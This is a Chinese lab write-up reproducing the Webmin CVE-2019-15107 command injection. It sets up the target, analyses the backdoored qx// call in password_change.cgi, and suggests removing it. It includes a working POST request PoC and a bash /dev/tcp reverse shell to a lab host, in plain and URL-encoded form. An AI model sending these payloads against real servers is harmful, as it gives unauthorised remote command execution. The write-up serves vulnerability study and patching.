 ### CVE-2019-15107 Webmin远程命令执行漏洞复现

漏洞影响版本为Webmin<=1.920

```Webmin的是一个用于管理类Unix的系统的管理配置工具，具有网络页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。它已知在端口10000上运行。在重置密码功能中发现了一个错误，该错误允许恶意第三方由于缺少输入验证而执行恶意代码。```

<br>

#### 环境搭建

靶机：CentOS7（192.168.2.101）

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228104243.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228104303.png)



![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228105556.png)

webmin在ssl模式下是无法显示界面的，我们需要进入服务器关闭ssl模式

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228105733.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228110328.png)

将ssl设置为0

重启webmin服务即可



![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228110606.png)

至此环境搭建完毕

<br>



#### 漏洞分析

漏洞点出在```password_change.cgi```文件中

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228113059.png)

第12行告诉我们，想要修改密码，password_mode必须设置为2，否则输出“Password changing is not enabled!"

这是漏洞利用的前提

<br>

下面看这个文件是如何判断webmin用户的

```perl
# Is this a Webmin user?
if (&foreign_check("acl")) {
	&foreign_require("acl", "acl-lib.pl");
	($wuser) = grep { $_->{'name'} eq $in{'user'} } &acl::list_users();
	if ($wuser->{'pass'} eq 'x') {
		# A Webmin user, but using Unix authentication
		$wuser = undef;
	elsif ($wuser->{'pass'} eq '*LK*' ||
	       $wuser->{'pass'} =~ /^\!/) {
		&pass_error("Webmin users with locked accounts cannot change ".
		       	    "their passwords!");
		}
	}
```

这段代码对请求中的user的密码和“x“进行了比较，”x”是```Unix authenticaton```设置的默认pass值。也就是说，如果我们传进去的user是系统用户登录且认证方式为```Unix authenticaton```的账户时，```$wuser```的值会被赋值为```undef```，在perl语言中是未定义的意思。

<br>

我们在看更新密码的代码段

```perl
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

如果```$wuser```未定义的话，则无法执行更新密码的代码段，也就是说，再利用漏洞的时候，不能用系统登录且认证方式为```Unix authenticaton```的账户，但是当我们传入的用户为空或者不存在时，经过测试，```$wuser```的值为{}，可以进入上面代码段。

在执行上述代码段的时候，由于输入的user不存在，在执行到第4行的时候，会自动执行pass_error（）函数，该函数的参数中的```qx/$in{'old'}/```是一个可执行系统命令的代码段。

在perl中，```qx//```的用法为执行系统命令

<br>

系统用户：

添加的系统用户，在系统中必须存在，Username选择想要添加的系统用户、Password为认证方式（选择Unix authentication认证，不需要输入密码，实质上是通过Linux系统/etc/shadow进行认证的）

普通webmin用户：

与系统用户无关，Username为普通用户、Password为认证方式（配置密码认证）



#### 漏洞利用

查看webmin配置信息

```（webmin配置文件在/etc/webmin/miniserv.conf）```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228115024.png)

可以看到```passwd_mode```的值为2，可以对密码进行修改

在进入控制台之前，先进入容器设置root密码

以root身份登录控制台

抓取修改密码请求包

直接访问```http://192.168.2.101:10000/password_change.cgi```

抓包后修改如下POC即可

```
POST /password_change.cgi HTTP/1.1
Host: 192.168.2.101:10000
Connection: close
Content-Length: 109
Cache-Control: max-age=0
Origin: https://192.168.2.101:10000
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://192.168.2.101:10000/session_login.cgi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

Cookie: redirect=1; testing=1; sessiontest=1; sid=x

user=&pam=1&expired=2&old=123456 || ls&new1=11&new2=11
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228132653.png)

可以看到命令执行成功

<br>



除此之外，还可以尝试反弹shell连接

```bash
bash -c "bash -i >& /dev/tcp/192.168.2.108/9999 0>&1"
```

编码器进行URL编码：

![image-20211228142745283](E:\学习笔记\渗透测试\webmin(cve_2019_15107)\webmin-cve_2019_15107.assets\image-20211228142745283.png)

```
%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%2e%31%30%38%2f%39%39%39%39%20%30%3e%26%31%22
```

kali开启监听

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228142827.png)

发送数据包：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228142908.png)

kali监听到了：

<img src="https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211228142942.png"  />

<br>







#### 漏洞修补

直接删除```qx//```后门即可

建议webmin项目尽量从官方github下载部署

参考链接：

[CVE-2019-15107 Webmin RCE 后门深入分析 | Qftm](https://qftm.github.io/2020/10/25/CVE-2019-15107-Webmin-RCE-Backdoor/#toc-heading-6)